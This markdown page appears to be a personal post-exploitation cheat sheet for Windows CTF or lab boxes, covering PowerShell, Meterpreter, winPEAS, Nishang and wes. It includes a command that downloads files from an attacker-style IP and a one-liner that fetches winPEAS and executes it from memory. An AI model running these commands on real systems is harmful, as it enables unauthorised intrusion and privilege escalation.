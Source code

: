 ```yaml
---
layout: single
classes: #wide
title: "Windows Boxes"
sidebar:
    title: "Windows Boxes"
    nav: infosec
collection: infopages
permalink: /infosec/windows/
toc: true
toc_sticky: true
author_profile: true
---
```


# Powershell
`powershell -c "Command"`
`Get-ChildItem -Path . *.txt -Recurse` - search for file (this case .txt)

## Meterpreter
`load powershell` - loads into meterpreter
`powershell_shell`
`shell`

# Post shells
Uploading files: 
`powershell -c "curl 10.13.53.1:9999/$file -OutFile $file"`

# Winpeas
[Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS):  
url =   
`$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" `  
One liner to download and execute winPEASany from memory in a PS shell  
`$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("") `   

less -r file (make color coded for viewing output file of winpeas)

# Nishang
contains: 
* execution
* excalation
* backdoors
* bypass
* Scans
* shells
* and more
website [here](https://github.com/samratashok/nishang)

# wes - exploit checker for win
`systeminfo > txt`
`wes txt`
[site](https://github.com/bitsadmin/wesng)



